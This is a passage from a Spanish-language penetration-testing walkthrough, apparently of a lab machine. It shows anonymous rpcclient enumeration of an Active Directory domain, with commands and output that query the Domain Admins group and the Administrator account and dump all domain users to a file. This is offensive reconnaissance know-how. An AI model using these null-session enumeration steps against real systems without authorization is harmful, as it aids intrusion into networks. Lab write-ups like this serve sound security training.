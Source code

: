 También puedo buscar en un grupo sus miembros. Por ejemplo, el grupo de administradores de dominio tiene un miembro, rid 0x1f4:

```bash
rpcclient $> querygroup 0x200 
	Group Name:	Domain Admins
	Description:	Designated administrators of the domain
	Group Attribute:7
	Num Members:1
rpcclient $> querygroupmem 0x200
	rid:[0x1f4] attr:[0x7]
```

Esa es la cuenta de administrador:

```bash
rpcclient $> queryuser 0x1f4
	User Name   :	Administrator
	Full Name   :	Administrator
	Home Drive  :	
	Dir Drive   :	
	Profile Path:	
	Logon Script:	
	Description :	Built-in account for administering the computer/domain
	Workstations:	
	Comment     :	
	Remote Dial :
	Logon Time               :	mié, 08 dic 2021 11:49:16 -05
	Logoff Time              :	mié, 31 dic 1969 19:00:00 -05
	Kickoff Time             :	mié, 31 dic 1969 19:00:00 -05
	Password last set Time   :	lun, 30 ago 2021 19:51:59 -05
	Password can change Time :	mar, 31 ago 2021 19:51:59 -05
	Password must change Time:	mié, 13 set 30828 21:48:05 -05
	unknown_2[0..31]...
	user_rid :	0x1f4
	group_rid:	0x201
	acb_info :	0x00000010
	fields_present:	0x00ffffff
	logon_divs:	168
	bad_password_count:	0x00000000
	logon_count:	0x00000062
	padding1[0..7]...
	logon_hrs[0..21]...
```

asi que guardaremos todos los usuarios que enumeramos con rpcclient en un archivo de texto

```bash
❯ rpcclient -U "" -N 10.129.95.210 -c "enumdomusers" | cut -d " " -f 1 | grep -oP "\[.*?\]" | tr -d "[]" > users.txt
Administrator
Guest
krbtgt
DefaultAccount
$331000-VK4ADACQNUCA
SM_2c8eef0a09b545acb
SM_ca8c2ed5bdab4dc9b
SM_75a538d3025e4db9a
SM_681f53d4942840e18
SM_1b41c9286325456bb
SM_9b69f1b9d2cc45549
SM_7c96b981967141ebb
SM_c75ee099d0a64c91b
SM_1ffab36a2f5f479cb
HealthMailboxc3d7722
HealthMailboxfc9daad
HealthMailboxc0a90c9
```